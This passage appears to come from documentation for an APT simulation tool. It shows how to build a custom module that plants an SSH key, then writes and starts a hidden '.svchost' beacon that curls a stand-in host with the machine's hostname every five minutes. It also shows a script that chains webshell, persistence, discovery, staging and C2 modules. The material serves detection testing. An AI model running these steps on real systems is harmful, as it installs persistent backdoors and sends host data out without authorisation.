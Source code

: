 For more realistic testing, customize the simulation to match specific threat actors:

```bash
# Create a custom module for a specific technique
cat > custom_module.sh << 'EOF'
#!/bin/bash
# Custom APT simulation module
echo "[+] Executing custom APT simulation"

# Create suspicious SSH keys
mkdir -p /tmp/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ..." > /tmp/.ssh/authorized_keys

# Create memory resident payload (simulated)
echo '#!/bin/bash
while true; do
  curl -s https://suspicious.domain/check.php?id=$(hostname)
  sleep 300
done' > /tmp/.svchost
chmod +x /tmp/.svchost

# Start the simulated backdoor
nohup /tmp/.svchost >/dev/null 2>&1 &

echo "[+] Custom simulation completed"
EOF

chmod +x custom_module.sh

# Add to APTSimulator
cp custom_module.sh APTSimulator-Linux/modules/
```

Then update the main script to include your custom module.

### Generating Comprehensive APT Campaigns

For full threat actor emulation, combine multiple modules into a campaign:

```bash
# Create an APT campaign script
cat > apt_campaign.sh << 'EOF'
#!/bin/bash
echo "[+] Starting APT campaign simulation"

# Phase 1: Initial Access
./apt-simulator.sh --module WEBSHELL

# Phase 2: Persistence
./apt-simulator.sh --module PERSISTENCE

# Phase 3: Discovery
./apt-simulator.sh --module DISCOVERY

# Phase 4: Collection
./apt-simulator.sh --module DATA_STAGED

# Phase 5: Command and Control
./apt-simulator.sh --module C2

echo "[+] APT campaign simulation completed"
EOF

chmod +x apt_campaign.sh
```
